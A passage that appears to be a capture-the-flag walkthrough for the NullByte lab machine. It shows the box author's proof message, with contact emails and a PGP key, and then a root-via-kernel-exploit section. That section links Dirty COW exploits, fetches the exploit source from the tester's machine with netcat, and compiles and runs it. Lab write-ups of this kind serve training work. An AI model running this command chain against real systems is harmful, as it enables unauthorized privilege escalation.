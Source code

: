	It seems that you have pwned the box, congrats. 
	Now you done that I wanna talk with you. Write a walk & mail at
	xly0n@sigaint.org attach the walk and proof.txt
	If sigaint.org is down you may mail at nbsly0n@gmail.com


	USE THIS PGP PUBLIC KEY

	-----BEGIN PGP PUBLIC KEY BLOCK-----
	Version: BCPG C# v1.6.1.0

	mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
	Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
	e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
	Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
	+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
	YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
	Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
	HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
	m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
	XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
	kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
	TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
	Gms=
	=PiAQ
	-----END PGP PUBLIC KEY BLOCK-----
	rootbash-4.3# 
	```

## Root - Via Kernel Exploit
1. Check system information
	```
	ramses@NullByte:~$ uname -a
	Linux NullByte 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt11-1+deb8u2 (2015-07-17) i686 GNU/Linux
	```
	- `3.16.0-4-686`
2. Search exploits for Linux `3.16.0-4-686`
	- https://www.exploit-db.com/exploits/40616
	- https://www.exploit-db.com/exploits/40839
3. Exploit
	```
	ramses@NullByte:/tmp$ nc 192.168.110.4 4444 > 40839.c
	ramses@NullByte:/tmp$ mv 40839.c dirty.c
	ramses@NullByte:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
	ramses@NullByte:/tmp$ chmod +x dirty; ./dirty 
	```
	![](images/Pasted%20image%2020220204011038.png)

---